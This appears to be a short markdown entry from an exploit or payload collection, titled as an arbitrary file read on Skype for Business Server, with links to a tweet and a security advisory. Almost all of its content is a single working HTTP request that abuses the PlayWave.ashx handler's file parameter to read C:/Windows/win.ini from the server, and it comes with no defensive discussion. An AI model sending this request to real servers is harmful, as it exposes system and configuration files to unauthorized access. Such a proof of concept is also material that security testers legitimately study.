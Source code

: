 ### Arbitrary File Read on Skype For Business Server
```
GET /RgsConfig/PlayWave.ashx?file=C:/Windows/win.ini
```

### References
https://twitter.com/ptswarm/status/1549744638193541122
https://lab.viettelcybersecurity.com/advisories/VCSA-97

